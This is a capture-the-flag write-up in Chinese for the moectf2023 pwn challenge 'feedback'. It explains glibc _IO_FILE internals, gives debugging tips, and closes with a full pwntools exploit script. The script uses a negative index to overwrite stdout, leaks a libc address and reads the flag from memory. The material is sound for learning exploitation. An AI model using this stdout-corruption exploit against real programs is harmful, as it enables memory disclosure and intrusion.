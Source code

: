 ```yaml
---
title: moectf2023 - feedback
date: 2023/9/27 12:00:00
tags:
    - IO arb write
excerpt: 利用`_IO_FILE`结构体漏洞，通过修改stdout指针实现读取flag。
---
```


## 文件分析

下载`feedback`, 保护全开  
ghidra分析为64位程序

缓冲区没有溢出，所以没法利用栈溢出等，因为可以访问stdout等，故利用`_IO_FILE`  
本题是我第一次做`_IO_FILE`，详细写写

## 前置知识

`_IO_FILE`中存在`_flags`，各标志位含义如下

```c
/* Magic numbers and bits for the _flags field.
   The magic numbers use the high-order bits of _flags;
   the remaining bits are available for variable flags.
   Note: The magic numbers must all be negative if stdio
   emulation is desired. */
#define _IO_MAGIC 0xFBAD0000 /* Magic number */
#define _OLD_STDIO_MAGIC 0xFABC0000 /* Emulate old stdio. */
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4 /* Reading not allowed */
#define _IO_NO_WRITES 8 /* Writing not allowd */
#define _IO_EOF_SEEN 0x10
#define _IO_ERR_SEEN 0x20
#define _IO_DELETE_DONT_CLOSE 0x40 /* Don't call close(_fileno) on cleanup. */
#define _IO_LINKED 0x80 /* Set if linked (using _chain) to streambuf::_list_all.*/
#define _IO_IN_BACKUP 0x100
#define _IO_LINE_BUF 0x200
#define _IO_TIED_PUT_GET 0x400 /* Set if put and get pointer logicly tied. */
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_IS_APPENDING 0x1000
#define _IO_IS_FILEBUF 0x2000
#define _IO_BAD_SEEN 0x4000
#define _IO_USER_LOCK 0x8000
```

pwn中常用0xfbad1800

puts, sprintf, printf等包装函数，最后都会调用write，可以对stdout结构体进行修改，
实现leak；其中结构体中的`_chain`，在stdout中会指向stdin；在执行包装输出函数前，
会打印`_IO_write_base`到`_IO_write_ptr`范围内的字符；初始化后`_IO_write_*`
会指向结构体中的`_shortbuf`，通过覆盖最后一个字节，可以将base指向`_chain`

## 踩过的坑

一开始在我本地上跑的时候，flag是无法写入的:
read函数返回-1(val of rax)，使用`p *__errno_location()`查询errno得知，
14: Bad Address，本身读入的地址就没有w权限

后来发现zip包里含有ld和libc，
可以patchelf（这里我把这两各文件放在./libs下）

{% note tip fa-circle-arrow-right %}
Arch Linux可以直接pacman(yay)安装patchelf哦
{% endnote %}

gdb中要重启程序不需要q，先kill再run/start即可

```shell
patchelf patchelf --set-interpreter ./libs/ld-2.31.so --replace-needed libc.so.6 ./libs/libc-2.31.so feedback
chmod +x ./libs/* # 一定要+x！不然没有权限执行
```

patch后gdb调试发现这时flag就会放到一个匿名内存段，不会崩溃了

## 解题思路

反汇编后得知，flag放在比`puts`高0x16d2e0的地址，而`puts`的地址是随机化的，
因此可以获取libc中的任意地址然后偏移取得flag地址

在vuln函数中要输入数组索引，而索引被限定为小于4；观察.bss段布局可知，
stdout地址比`feedback_list`低，将索引输入为-8，就可以覆盖stdout写入

gdb调试后可以知道stdin与flag位置的差值

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 37325)

# payload 1
sh.sendline(b'-8') # locate stdout ptr
payload = p64(0xfbad1800) # _flags though 32b data, takes 64b space
payload += p64(0) # _IO_read_ptr，stdout不涉及输入，改成0就可以
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += b'\x08' # _IO_write_base first byte, points to _chain
# write _chain (stdin) out
sh.sendlineafter(b'back.', payload)

flag = u64(sh.recvuntil(b'Your')[1:7]+b'\0\0') - 0x1980 + 0x6700 # get stdin addr and shift to flag addr

# payload 2
sh.sendline(b'-8') # locate stdout ptr
payload = payload[:-1] # remove '\x08'
payload += p64(flag) # _IO_write_base
payload += p64(flag + 0x30) # _IO_write_ptr, unknown flag length, assuming 48
# write flag out
sh.sendlineafter(b'back.', payload)
sh.interactive()
```

Done.

